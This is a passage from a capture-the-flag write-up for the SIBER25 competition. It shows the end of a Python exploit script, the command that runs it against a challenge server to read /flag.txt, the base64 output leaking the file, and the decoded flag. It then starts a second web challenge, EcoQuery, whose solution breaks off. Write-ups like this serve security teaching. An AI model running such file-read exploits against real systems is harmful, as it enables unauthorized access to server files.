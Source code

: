 ```py
   print(r.text)


if __name__ == "__main__":
   main()
```

Running with command `python3 test.py --url http://5.223.49.127:27003/process --flag /flag.txt` produces as follows:

```html
(tructuated)
<div class="result success">
            Import processed successfully:

!!binary | U0lCRVIyNXtZOG1MX0ExbnRfbTRya1VQX2w0bmd1NGczISEhfQ0K
</div>
```

Data is sent by Base64 and when using CyberChef to change from Base64 produces the flag as follows.

>Flag: `SIBER25{Y8mL_A1nt_m4rkUP_l4ngu4g3!!!}`
{: .prompt-tip}

## Challenge 10: EcoQuery (web)

*Solved by: Jerit3787*

**Description:**

Welcome to EcoQuery: your trusted gateway to environmentally friendly data access. Only verified users can enter - administrators enjoy full system privileges, while guest accounts remain locked down.

Flag Format: SIBER25{flag}

Challenge Creator: @hanming0510

**Solution:**

The system allows users to login to the system.

![](assets/img/siber-siaga-25/image4.png)
